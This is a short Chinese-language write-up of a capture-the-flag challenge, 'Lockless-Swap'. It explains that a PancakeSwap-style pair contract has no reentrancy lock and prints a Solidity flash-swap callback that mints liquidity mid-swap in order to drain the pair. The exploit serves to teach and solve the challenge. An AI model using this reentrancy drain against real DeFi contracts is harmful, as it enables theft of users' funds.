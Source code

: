 # Lockless-Swap
在`LocklessPancakePair.sol`中有注释写: @shou: no more lock protection, needs to prevent attacker sync during swap

所以我们知道这里没有reentrancy Guard，可以进行重入攻击。

```solidity
function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
        console.log("pair balance 0:%e", token0.balanceOf(address(pair)));
        console.log("pair balance 1:%e", token1.balanceOf(address(pair)));

        token0.transfer(address(pair), 1e18);
        token1.transfer(address(pair), 1e18);
        pair.mint(address(this));
        token0.transfer(address(pair), 99e18 - 1e10);
        token1.transfer(address(pair), 99e18 - 1e10);
    }
```
大量转出token0和token1，然后转入少量token0和token1获取大量流动性，然后就能把pair抽干